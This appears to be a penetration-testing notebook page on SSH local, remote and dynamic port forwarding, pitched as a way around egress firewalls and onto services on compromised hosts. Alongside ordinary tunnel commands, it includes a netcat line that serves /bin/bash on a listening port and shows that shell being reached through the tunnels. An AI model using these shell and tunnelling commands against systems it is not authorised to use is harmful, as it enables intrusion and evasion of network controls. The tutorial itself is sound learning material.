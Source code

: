# Port Forwarding

## SSH: Local Port Forwarding

If you are on the network that restricts you from establishing certain connections to the outside world, local port forwarding allows you to bypass this limitation.   
  
For example, if you have a host that you want to access but the egress firewall won't allow this, the below will help:

```csharp
ssh -L 127.0.0.1:8080:REMOTE_HOST:PORT user@SSH_SERVER
```

All the traffic will flow through the SSH\_SERVER \(like a proxy\) which DOES have access to the host you want to access. Let's see an example.

#### On machine 10.0.0.5

The below reads: bind on a local port 9999 \(on a host 10.0.0.5\). Listen for any traffic coming to that port 9999 \(i.e 127.0.0.1:9999\) and forward all that traffic to the port 4444 on host 10.0.0.12:

```csharp
ssh -L9999:10.0.0.12:4444 root@10.0.0.12 -N -f
```

We can see that the 127.0.0.1:9999 is now indeed listening:

![](../.gitbook/assets/ssh-local-bind.png)

#### On machine 10.0.0.12

Machine 10.0.0.12 is listening on port 4444 - it is ready to give a reverse shell to whoever joins

![](../.gitbook/assets/ssh-local-port-1.png)

#### On machine 10.0.0.5

Since the machine is listening on 127.0.0.1:9999, let's netcat it - this should give us a reverse shell from 10.0.0.12:4444:

![](../.gitbook/assets/ssh-local-port-2.png)

The above indeed shows that we got a reverse shell from 10.0.0.12.

## SSH: Remote Port Forwarding

Remote port forwarding helps in situations when you have compromised a box which has a service running on a port bound to 127.0.0.1, but you want to access that service from outside. In other words - it exposes an otherwise obscured port to the host on the other end of the tunnel.

Pseudo syntax for creating remote port forwarding with ssh tunnels is:

```csharp
ssh -R 5555:LOCAL_HOST:3389 user@SSH_SERVER
```

The above suggests that any port sent to port 5555 on SSH\_SERVER will be forwarded to the port 3389 on the LOCAL\_HOST - the host with an obsucure service.

#### On machine 10.0.0.12

Let's create a reverse shell listener bound to 127.0.0.1 \(not reachable to hosts from outside\):

```csharp
nc -lp 4444 -s 127.0.0.1 -e /bin/bash & ss -lt
```

![](../.gitbook/assets/ssh-remote-hidden.png)

Now, let's open a tunnel to 10.0.0.5 and create remote port forwarding by exposing the port 4444 for the host 10.0.0.5:

```text
ssh -R5555:localhost:4444 root@10.0.0.5 -fN
```

The above says: bind a port 5555 on 10.0.0.5 and make sure that any traffic sent to port 5555 on 10.0.0.5, please send it over to port 4444 on to this box \(10.0.0.12\).

#### On machine 10.0.0.5

Indeed, we can see a port 5555 got opened up on 10.0.0.5 as part of the tunnel creation:

![](../.gitbook/assets/ssh-remote-exposed.png)

Let's try sending some traffic to 127.0.0.1:5555 - this should give us a reverse shell from the 10.0.0.12:4444 - which it did:

![](../.gitbook/assets/ssh-remote-shell.png)

## SSH: Dynamic Port Forwarding

Pseudo syntax for creating dynamic port forwarding with ssh tunnels is:

```csharp
ssh -D 127.0.0.1:8080 user@SSH_SERVER
```

Which essentially means - bind port 8080 on localhost and any traffic that gets sent to this port, please just relay it to the SSH\_SERVER - I trust it to make the connections for me and send any data it sees back to me.

Example:

```text
ssh -D9090 root@159.65.200.10
```



{% embed data="{\"url\":\"https://blog.trackets.com/2014/05/17/ssh-tunnel-local-and-remote-port-forwarding-explained-with-examples.html\",\"type\":\"link\",\"title\":\"SSH Tunnel - Local and Remote Port Forwarding Explained With Examples -  Trackets Blog\",\"icon\":{\"type\":\"icon\",\"url\":\"https://blog.trackets.com/images/favicon.ico\",\"aspectRatio\":0}}" %}

